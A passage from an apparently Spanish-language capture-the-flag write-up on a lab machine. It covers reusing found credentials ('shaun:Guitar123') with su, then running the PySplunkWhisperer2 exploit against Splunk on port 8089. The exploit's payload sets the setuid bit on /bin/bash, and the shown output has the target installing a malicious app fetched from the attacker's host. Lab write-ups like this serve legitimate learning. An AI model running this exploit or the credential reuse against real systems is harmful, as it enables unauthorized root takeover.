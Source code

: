 ```bash wrap=false
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/user-1002@84e1503b20fd49eca2b6ca0b7d6fdeeb-00000000000176d6-0005af5694057aa6.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-0000000000033c8f-0005afad8045c159.journal matches
dmesg:[    2.875758] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
grep: boot.log: Permission denied
grep: vmware-vmtoolsd-root.log: Permission denied
dmesg.0:[    5.666833] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
grep: btmp: Permission denied
grep: vmware-network.7.log: Permission denied
grep: btmp.1: Permission denied
grep: boot.log.3: Permission denied
grep: vmware-vmsvc-root.3.log: Permission denied
grep: vmware-network.2.log: Permission denied
grep: boot.log.7: Permission denied
grep: boot.log.6: Permission denied
grep: boot.log.1: Permission denied
grep: vmware-vmsvc-root.log: Permission denied
grep: vmware-network.8.log: Permission denied
grep: private: Permission denied
grep: vmware-vmsvc-root.2.log: Permission denied
grep: boot.log.5: Permission denied
grep: vmware-network.log: Permission denied
```

Si probamos las credenciales que encontramos `shaun:Guitar123`:

```bash
web@doctor:/var/log$ su shaun
Password: 
shaun@doctor:/var/log$ whoami
shaun
```

### Usuario root

Recordando el previo reconocimiento que hemos hecho, para el servicio que corre en el puerto `8089` existe un exploit para escalar privilegios. Este exploit requiere credenciales, pero probando las anteriores conseguimos acceso. Dejo aquí el [enlace](https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py) al recurso:

```bash title="Usamos el script como nos indica" wrap=false
❯ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.8 --username shaun --password Guitar123 --payload "chmod u+s /bin/bash"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpzq79arxe.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.8:8181/
10.10.10.209 - - [06/Sep/2025 22:54:44] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!
```
